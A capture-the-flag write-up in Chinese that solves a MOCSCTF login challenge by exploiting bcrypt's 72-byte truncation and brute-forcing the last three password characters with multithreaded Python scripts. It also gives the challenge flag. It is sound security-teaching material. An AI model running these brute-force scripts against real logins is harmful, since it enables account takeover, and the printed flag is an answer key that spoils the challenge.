

## flag

MOCSCTF{eeezzzz_transf0rmer_cha11eng3}

## 解題步驟

題目附件直接給了docker，並且只是一個很簡單的文件，我們看看代碼



發現使用的uuid倆動態生成隨機密碼，並且使用的PASSWORD_BCRYPT，在網上可以查到這個算法只會存儲72個字節，也就是說這類進行拼接對比hash並不安全，寫個python看看成都多少

```python
print(len("My-password-is-super-secure-that-You'd-never-guess-it-Hia-hiahiaadmin"))
# 69
```

也就是說還差三個字符，uuid我們可以進行爆破，寫個腳本

```python
import requests
import string

url="http://127.0.0.1:9999"

combinations = string.ascii_uppercase + string.ascii_lowercase + string.digits
password=[]
for i in combinations:
    for j in combinations:
        for k in combinations:
            password.append(f"{i}{j}{k}")


for i in password:
    r=requests.post(url,data={"username":"admin","password":f"{i}"})
    if "MOCSCTF{" in r.text:
        print(r.text)
        exit()
    else:
        print(f"{i} is not right")
```

但是發現比較慢，加個多線程

```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor

url = "http://abc.baozongwi.xyz/"
combinations = string.ascii_lowercase + string.digits

password = []
for i in combinations:
    for j in combinations:
        for k in combinations:
            password.append(f"{i}{j}{k}")


def try_password(password_attempt):
    r = requests.post(url, data={"username": "admin", "password": password_attempt})
    if "MOCSCTF{" in r.text:
        return f"Found flag: {r.text}"
    else:
        return f"{password_attempt} is not right"


def start_threads():
    with ThreadPoolExecutor(max_workers=10) as executor:
        results = executor.map(try_password, password)

        for result in results:
            print(result)
            if "Found flag" in result:
                exit()


if __name__ == '__main__':
    start_threads()

```

大概十幾分鐘就可以解決這個挑戰，後面發現有可能是拼運氣的，所以我把php拉了下來

```php
<?php
function generate_uuid_v4() {
    $data = random_bytes(16);

    $data[6] = chr(ord($data[6]) & 0x0f | 0x40);
    $data[8] = chr(ord($data[8]) & 0x3f | 0x80);

    return vsprintf('%s%s-%s-%s-%s-%s%s%s', str_split(bin2hex($data), 4));
}
$password=generate_uuid_v4();
echo $password;
```

發現這就是十六進制的，所以可以再度縮短字符集

```python
import requests
from concurrent.futures import ThreadPoolExecutor

url = "http://abc.baozongwi.xyz/"
combinations = "1234567890abcdef"

password = []
for i in combinations:
    for j in combinations:
        for k in combinations:
            password.append(f"{i}{j}{k}")


def try_password(password_attempt):
    r = requests.post(url, data={"username": "admin", "password": password_attempt})
    if "MOCSCTF{" in r.text:
        return f"Found flag: {r.text}"
    else:
        return f"{password_attempt} is not right"


def start_threads():
    with ThreadPoolExecutor(max_workers=10) as executor:
        results = executor.map(try_password, password)

        for result in results:
            print(result)
            if "Found flag" in result:
                exit()


if __name__ == '__main__':
    start_threads()

```

這樣子就快了不少，只用了幾分鐘就解決了